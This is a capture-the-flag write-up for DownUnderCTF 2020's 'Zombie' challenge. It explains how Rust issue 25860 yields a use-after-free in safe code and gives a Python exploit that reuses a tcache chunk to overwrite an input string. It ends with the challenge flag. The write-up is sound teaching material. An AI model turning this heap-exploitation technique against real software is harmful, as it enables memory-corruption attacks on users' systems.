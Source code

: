 # DownUnderCTF 2020 - Zombie Writeup
This challenge is about exploiting the Rust bug linked here: https://github.com/rust-lang/rust/issues/25860

Prerequisites: Knowing how the Tcache works.

### The Bug
```Rust
// Issue 25860
fn cell<'a, 'b, T: ?Sized>(_: &'a &'b (), v: &'b mut T) -> &'a mut T { v }

fn virus<'a, T: ?Sized>(input: &'a mut T) -> &'static mut T {
	let f: fn(_, &'a mut T) -> &'static mut T = cell;
	f(&&(), input)
}

fn zombie(size: usize) -> &'static mut [u8] {
	let mut object = vec![b'A'; size];
	let r = virus(object.as_mut());
	r
}
```

I am not experienced with Rust, but I do have experience with C++, which I think has helped me with understanding the issue.
The `virus` function takes a reference to an object and returns a reference to the same object but as if it is static.

So what does this mean? Static objects have unlimited lifetime. The object is not actually static, so when the `zombie` function exits, `object` is destroyed and its memory is freed. But `zombie` returns a reference to it anyway, which may be used by the caller. This is a **Use After Free**, which should not normally happen in Rust outside of unsafe blocks. Here it is allowed because the static fools the compiler into thinking the object is still alive. It's not, it's a zombie.


### The Exploit
Half the job is already done for us by the challenge. Here's the main loop:

```Rust
println!("What will you do?");

let line = lines.next().unwrap().unwrap();

match line.as_str().trim() {
	"get flag" => continue, // if "get flag", skip this cycle
	"infect" => infected = Some(infect(&mut lines)),
	"eat brains" => eat_brains(&mut lines, &mut infected),
	"inspect brains" => inspect_brains(&mut lines, &mut infected),
	_ => (),
}
		println!("{}", line);

if line.as_str().trim() == "get flag" { // normally this would be impossible to reach!
	let flag = read_to_string("flag.txt").unwrap();
	println!("Here's the flag: {}", &flag);
}
```

Clearly, what the author wants us to do is to exploit the UAF to change the contents of the `line` variable to `"get flag"`. Accomplishing this is easier than it sounds. Rust may not be C but it's still using libc underneath! We can use the heap exploits we already know and "love".


* Use `infect` to allocate an `infected` array of X bytes. This array is then freed to the X size tcache bin and used by our next commands.
* Use `eat brains`, BUT, pad the input with whitespace so that it is X bytes long.
  The string will be allocated using the X size tcache bin, where our array resides! `line` and `infected` now point to the same memory.
* Finish using the `eat brains` command to modify `infected` so that it starts with `get flag\x00`. This modifies `line` as well.

Here's the code to do this. (Full script in exploit.py, in repo)

```Python
infect(0x50)
p.sendline('eat brains'.ljust(0x50))

for i, c in enumerate('get flag  '):
    p.recvuntil('a victim')
    p.sendline(str(i))
    p.recvuntil('ch!')
    p.sendline(str(ord(c)))

p.recvuntil('a victim')
p.sendline('done')
p.interactive()
```

##### Why 2 spaces?
You need to overwrite `eat brains` fully, one space will not suffice. Result would be `get flag s`

##### Why not \x00?
It does not work. I am guessing it's because of Rust's `trim` behavior and its string implementation. See the tests below.

```Rust
fn main() {
    println!("{}", "get flag\x00" == "get flag"); //false
    println!("{}", "get flag ".trim() == "get flag"); //true
    println!("{}", "get flag\x00".trim() == "get flag"); //false
}
```


## The Flag
DUCTF{m3m0ry_s4f3ty_h4ck3d!}

